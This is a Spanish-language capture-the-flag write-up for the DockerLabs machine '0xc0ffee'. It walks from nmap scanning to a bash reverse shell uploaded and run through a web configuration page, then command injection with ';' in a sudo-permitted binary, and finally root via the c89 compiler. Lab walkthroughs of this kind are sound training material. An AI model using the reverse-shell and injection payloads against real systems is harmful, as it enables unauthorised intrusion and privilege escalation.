

Máquina "0xc0ffee" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio


# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 18:55:41 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-04 18:55:42 -03 for 18s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Security Verification Tool
7777/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 18:56:00 2024 -- 1 IP address (1 host up) scanned in 18.57 seconds
```

Como vemos está el puerto `80` abierto y el `7777` también corriendo un servidor en python.

###### Puerto 80:


Como vemos es una página que nos pide una contraseña, pero como no la tenemos la dejaremos de lado.

###### Puerto 7777:


Como vemos es lo mismo que ejecutar `python3 -m http.server <puerto>` (literalmente igual), por lo que no podemos subir nada y la mayoria de las cosas nos las descarga, excepto los ".txt". Si vamos a `/secret/` veremos un archivo ".txt" que tiene una historia:

```css
En los albores del siglo XXI, España se encontraba en medio de una revolución tecnológica, donde las sombras de los servidores y el resplandor de las pantallas digitales eran el campo de batalla para los más astutos y habilidosos. Entre ellos, había un nombre que resonaba con reverencia y misterio: Álvaro López. Conocido en la comunidad cibernética como “El Fantasma de Madrid”, Álvaro era considerado el mejor hacker de España, y su habilidad para penetrar los sistemas más seguros era casi legendaria.

Álvaro comenzó su andanza en el mundo de la ciberseguridad desde una edad temprana. Lo que comenzó como un simple interés en la informática se transformó en una pasión por desentrañar los secretos más ocultos de las redes y sistemas de seguridad. Su habilidad para encontrar vulnerabilidades en sistemas aparentemente impenetrables le ganó una reputación que se extendía más allá de las fronteras de España.

Uno de los incidentes más notorios en la carrera de Álvaro ocurrió cuando se enfrentó a uno de los desafíos más complejos de su vida. Un banco internacional de renombre, conocido por su nivel extremo de seguridad, había sido blanco de un ataque, y el misterio giraba en torno a un archivo encriptado con la etiqueta "super_secure_password". Este archivo contenía información crítica sobre las transacciones de alto valor, y su protección era de máxima prioridad.

El banco había desplegado una red de seguridad impenetrable, con capas de cifrado y autenticación de múltiples factores, lo que hizo que el reto fuera aún más emocionante para Álvaro. Tras semanas de investigación y análisis de los sistemas, el Fantasma de Madrid descubrió una pequeña pero crítica vulnerabilidad en el protocolo de encriptación utilizado. Con una mezcla de astucia y técnica avanzada, pudo realizar un ataque sofisticado que permitió descifrar el contenido protegido bajo el "super_secure_password".

Sin embargo, el talento de Álvaro no radicaba solo en su capacidad para hackear sistemas; también era un maestro en la ética de la ciberseguridad. En lugar de utilizar la información para sus propios fines, utilizó su acceso para alertar al banco sobre las fallas en su sistema y proporcionar recomendaciones para mejorar la seguridad. Su acto no solo demostró su habilidad técnica, sino también su integridad y compromiso con la seguridad digital.

La hazaña de Álvaro López pronto se convirtió en una leyenda en el mundo de la ciberseguridad. El banco, agradecido por su valiosa contribución, lo recompensó generosamente y lo invitó a colaborar en la mejora de sus sistemas de seguridad. La historia de El Fantasma de Madrid se convirtió en un ejemplo de cómo la habilidad y la ética pueden coexistir en el mundo del hacking.

Con el tiempo, Álvaro siguió influyendo en el campo de la ciberseguridad, ofreciendo conferencias y talleres sobre la importancia de la protección de datos y la ética en el hacking. Su legado perduró, y su nombre se convirtió en sinónimo de excelencia en el arte de la ciberseguridad, recordado como el mejor hacker que España había conocido.
```

Ahora si nos fijamos, veremos que la historia nombra una password, la cual es "super_secure_password". Ahora si a esta misma la metemos en el puerto 80 que nos pedía una contraseña, podremos entrar. Una vez dentro veremos esta otra página:


Al parecer nos deja crear "configuraciones" y aplicarlas, en la cual si probamos crear por ejemplo una que se llame "test.txt" y la subimos, veremos que se ha creado localmente en el puerto 7777:


# INTRUSION

Sabiendo esto podemos probar en enviarnos una reverse shell y ver si nos llega.

En la página haremos un script que tenga extensión ".sh" y que contenga lo siguiente:

```css
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<puerto> 0>&1
```

Luego le damos en guardar, volvemos a nuestra máquina y escuchamos con netcat en el puerto elegido:

```css
sudo nc -nlvp <puerto>
```

ahora bajamos en la página hasta donde dice "Execute Remote Configuration" y ejecutamos el script con el nombre que elegimos:

 

# ESCALADA DE PRIVILEGIOS

### www-data

Antes de continuar haremos el tratamiento de la tty, para hacerlo ejecutaremos estos comandos:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y luego escribimos "reset xterm" y luego enter
export TERM=xterm && export SHELL=bash
```

Ahora si nos vamos a `/home/codebad/secret`, podremos ver una adivinanza que dice lo siguiente:

```abap
Adivinanza

En el mundo digital, donde la protección es vital,
existe algo peligroso que debes evitar.
No es un virus común ni un simple error,
sino algo más sutil que trabaja con ardor.

Es el arte de lo malo, en el software es su reino,
se oculta y se disfraza, su propósito es el mismo.
No es virus, ni gusano, pero se comporta igual,
toma su nombre de algo que no es nada normal.

¿Qué soy?
```

RESPUESTA: malware.

Luego ejecutamos un `su codebad` y poner "malware" de contraseña.

## Codebad

Si ejecutamos un `sudo -l` vermos lo siguiente:

```css
Matching Defaults entries for codebad on ce1f3f7f4392:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User codebad may run the following commands on ce1f3f7f4392:
    (metadata : metadata) NOPASSWD: /home/codebad/code
```

Si intentamos leer el script, estará en un formato ilegible, pero podemos probar en ejecutarlo y ver que pasa:



como vemos nos pide una opción, la cual si se la pasamos nos dice esto:


Como vemos el script ya ejecuta un "ls", por lo que podemos intentar ejecutar el binario "bash" como el usuario metadata, para hacerlo podemos hacer uso de ";" que en linux nos permite "ejecutar dos comandos a la vez", por ej:


como vemos al hacer uso de ";" y poner `whoami; ls`, nos ejecuta los dos a la misma vez. Ahora podemos usar esto en nuestro beneficio para escalar, para hacerlo podemos ejecutar el script de la siguiente manera:

```css
sudo -u metadata /home/codebad/code "/home/; bash"
```

Esto hará que se ejecute el binario bash y podremos escalar privilegios al usuario "metadata".

### Metadata

Ahora si ejecutamos `sudo -l` nos pedirá contraseña, pero podemos buscar si hay algún archivo o algo que nos sirva con el nombre de "metadata" y en el mejor de los casos tenga la contraseña. Para hacerlo usaremos `find` de la siguiente manera:

```css
find / -name "meta*" 2>/dev/null
```

Luego de ejecutarlo vermos que hay un script llamado "metadatosmalos":

```css
/usr/local/bin/metadatosmalos
```

si lo leemos no tiene nada interesante pero si usamos el nombre del script como contraseña al poner `sudo -l`, veremos que es correcta y podemos ejecutar el binario `c89`, que al buscar en [GTFOBins](https://gtfobins.github.io/) veremos que podemos escalar ejecutando esto:


Por lo que simplemente lo ejecutamos y ya seremos root:


Gracias por leer.